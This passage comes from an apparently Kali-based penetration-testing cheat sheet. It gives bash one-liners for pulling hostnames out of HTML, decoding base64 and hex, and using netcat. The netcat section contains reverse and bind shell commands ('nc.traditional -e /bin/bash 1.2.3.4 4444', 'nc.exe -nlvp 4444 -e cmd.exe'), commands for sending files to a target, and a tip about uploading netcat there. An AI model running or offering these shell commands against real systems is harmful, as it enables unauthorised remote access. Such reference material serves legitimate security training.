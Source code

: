         `tail index.html`

    -   Extract all the lines that contain a string  
        `grep "href=" index.html`

    -   Cut a string by a delimiter, filter results then sort  
        `grep "href=" index.html | cut -d "/" -f 3 | grep "\\." | cut -d '"' -f 1 | sort -u`

    -   Using Grep and regular expressions and output to a file  
        `cat index.html | grep -o 'http://\[^"\]\*' | cut -d "/" -f 3 | sort –u > list.txt`

    -   Use a bash loop to find the IP address behind each host  
        `for url in $(cat list.txt); do host $url; done`

    -   Collect all the IP Addresses from a log file and sort by
        frequency  
        `cat access.log | cut -d " " -f 1 | sort | uniq -c | sort -urn`

-   Decoding using Kali

    -   Decode Base64 Encoded Values
       
        `echo -n "QWxhZGRpbjpvcGVuIHNlc2FtZQ==" | base64 --decode`

    -   Decode Hexidecimal Encoded Values  
        `echo -n "46 4c 34 36 5f 33 3a 32 396472796 63637756 8656874" | xxd -r -ps`

-   Netcat - Read and write TCP and UDP Packets

    -   Download Netcat for Windows (handy for creating reverse shells and transfering files on windows systems):
        [https://joncraton.org/blog/46/netcat-for-windows/](https://joncraton.org/blog/46/netcat-for-windows/)

    -   Connect to a POP3 mail server  
        `nc -nv $ip 110`

    -   Listen on TCP/UDP port  
        `nc -nlvp 4444`

    -   Connect to a netcat port  
        `nc -nv $ip 4444`

    -   Send a file using netcat  
        `nc -nv $ip 4444 < /usr/share/windows-binaries/wget.exe`

    -   Receive a file using netcat  
        `nc -nlvp 4444 > incoming.exe`
        
    -   Some OSs (OpenBSD) will use nc.traditional rather than nc so watch out for that...
         
            whereis nc
            nc: /bin/nc.traditional /usr/share/man/man1/nc.1.gz

            /bin/nc.traditional -e /bin/bash 1.2.3.4 4444

	    There is also a possibility to upload the netcat to the target machine


    -   Create a reverse shell with Ncat using cmd.exe on Windows  
        `nc.exe -nlvp 4444 -e cmd.exe`
        
